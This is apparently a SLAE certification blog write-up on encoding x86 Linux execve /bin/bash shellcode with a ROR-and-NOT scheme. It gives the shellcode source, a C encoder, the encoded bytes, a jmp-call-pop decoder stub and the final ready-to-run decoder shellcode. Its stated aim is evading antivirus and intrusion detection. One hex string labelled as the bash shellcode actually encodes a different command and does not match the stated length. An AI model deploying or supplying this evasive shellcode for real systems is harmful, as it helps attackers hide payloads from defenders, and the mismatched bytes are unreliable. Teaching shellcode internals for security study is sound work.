 ```yaml
---
layout: post
title:  "SLAE Assignment 4 - Encoding/Decoding Shellcode"
date:   2017-04-23
category: Certification
excerpt_separator: <!--more-->
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 4:  
  
Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment4).  
  
**Our Goal:**  
> *Create a custom encoding scheme*
 - *POC with using the execve-stack as the shellcode*  
<!--more-->
  
Hello everybody,  
  
Today we will create an encoded shellcode and its decoding routine.  Encoding a shellcode is useful to bypass Antivirus or Intrusion Detection Systems. Our resulting shellcode and its opcodes will have no meaning at all if the encoding scheme if robust enough (for example avoid classic XOR encoding).  
  
For each byte, our encoding scheme will consists in:  
 - Rolling four bits to the right (ROR instruction)  
 - Getting the complement of that byte (NOT)  
  
We will apply this encoding scheme on the following execve **/bin/bash** stack shellcode:  
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH ////bin/bash (12) 

	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```  
  
Testing the execve stack shellcode provides a /bin/bash prompt indeed:  
```bash
# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c  && ./shellcode
Shellcode Length:  30
root@kali:/root/Documents/pentest/certs/slae/exam/assignment4# id
uid=0(root) gid=0(root) groups=0(root)
```  
  
Execve stack shellcode looks like:  
```bash
\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Let's now create our encoding routine ([shellcode_encode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode_encode.c)):  
```c
#include <stdio.h>
#include <string.h>

// execve stack shellcode
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// print shellcode
void print_shellcode(){

	printf("Length %d\n",sizeof(shellcode));
	for (int i=0; i<strlen(shellcode); i++) {
		printf("\\x%02x", shellcode[i]);
	}
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		printf("0x%02x,", shellcode[i]);
	}
}

void main()
{

	int	rotate = 4;	// rotate 4 bits to the right

	// print initial shellcode
	printf("Initial shellcode\n");
	print_shellcode();
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		shellcode[i] = (shellcode[i] >> rotate) | (shellcode[i] << (8-rotate));	// ror method
		shellcode[i] = ~shellcode[i]; // one's complement 
	}

	// print encoded shellcode
	printf("\nEncoded shellcode\n");
	print_shellcode();
	printf("0xaa"); // marker for the end of encoded shellcode
	printf("\n");

}
```
  
The encoded execve stack shellcode is the following:  
```bash
0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```
  
Let's create the decoding nasm shellcode [shellcode_decoder.nasm](https://github.com/phackt/slae/tree/master/assignment4/shellcode_decoder.nasm):  
```nasm
global _start			

section .text
_start:

	jmp short call_shellcode    ; jmp, call, pop technique

decoder:
	pop esi

decode: 
	xor eax, eax
	xor ebx, ebx
	mov al, byte [esi]          ; we move the byte to be decoded
	not al                      ; one's complement
	rol al, 4                   ; rolling on left to decode the rolling on right encoding
	mov byte [esi], al          ; saving the decoded byte

	lea esi, [esi + 1]          ; next byte   
	mov bl, [esi]  
	cmp bl, 0xaa                ; looking for the end of encoded shellcode
	je short EncodedShellcode   ; we jump to the decoded shellcode
	jmp short decode            ; keeping on decoding

call_shellcode:

	call decoder
	EncodedShellcode: db 0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```  
  
Let's assembly, link and get the decoding shellcode:  
```bash
# ./compile.sh shellcode_decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# objdump -d ./shellcode_decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1a\x5e\x31\xc0\x31\xdb\x8a\x06\xf6\xd0\xc0\xc0\x04\x88\x06\x8d\x76\x01\x8a\x1e\x80\xfb\xaa\x74\x07\xeb\xe7\xe8\xe1\xff\xff\xff\xec\xf3\xfa\x79\xd9\xe9\xc8\x79\x79\xd9\x69\x19\x0d\x79\x0d\x0d\x0d\x0d\x67\xc1\xfa\x67\xd1\xca\x67\xe1\xf4\x4f\x23\xf7\xaa"
```
  
Let's update the [shellcode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode.c) file and execute our decoding shellcode:  
![image1]({{ site.url }}/public/images/slae/assignment4/image1.png)  
  
Remember that running our shellcode thanks to shellcode.c is useful because our shellcode will be located into the writable .data segment.  
If we directly execute the shellcode_decoder executable, it will result in a segmentation fault because it will try to rewrite the EncodedShellcode variable located in the non writable .text segment (also useful to use the jmp/call/pop technique in order to avoid null bytes and to dynamically get the address of our encoded shellcode).  
  
We did not test it on [VirusTotal](https://www.virustotal.com/) in order to avoid the fingerprinting of the encoding scheme.  
  
Hope you enjoyed this post, don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)